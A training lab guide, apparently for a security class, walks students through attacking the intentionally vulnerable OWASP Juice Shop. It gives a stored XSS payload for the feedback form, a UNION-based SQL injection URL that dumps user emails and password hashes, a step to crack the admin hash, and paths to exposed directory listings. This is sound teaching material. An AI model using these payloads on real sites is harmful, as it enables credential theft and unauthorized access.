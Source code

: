 Lab 3 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized directory listing.

Task – Demonstrate a server side cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Visit the About page so you can see that it hasn't been hacked yet by clicking on the hamburger menu in the top left corner of the page:

.. image:: /_static/class9/hamburger_menu.png

and then click on **About Us**.

.. image:: /_static/class9/aboutus_menu.png

You should see a bunch of lorem ipsum text and a slider of customer feedback entries retrieved from the database.

.. image:: /_static/class9/aboutus_page.png

We will insert our cross site scripting hack into the database via the Customer Feedback form. Click on the hamburger menu again and then click on **Customer Feedback**.

.. image:: /_static/class9/customer_feedback.png

In the comment area paste the following:

.. code-block:: none

    <<script>FUD</script>iframe allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&auto_play=true>

Then, choose any amount of stars for the rating and answer the math challenge and then click Submit.

.. image:: /_static/class9/xss_cust_feedback_form.png

Now head back over to the About page by clicking on the hamburger menu and then clicking on About. You should hear a jingle about the Juice Shop.

Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Paste the following path in your browser's location bar after the FQDN of the Juice Shop:


.. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The location bar should look something like (don't copy this since your FQDN will be different):

.. code-block:: none

    https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The result should be a list of all the users in the database including their hashed passwords.

.. image:: /_static/class9/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


.. image:: /_static/class9/juice_shop_crackstation.png


Task - Demonstrate an unauthorized directory listing
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /ftp to expose an unwanted directory listing

.. image:: /_static/class9/juice_shop_ftp.png

Navigate to /encryptionkeys to expose an unwanted directory listing

.. image:: /_static/class9/juice_shop_encryptionkeys.png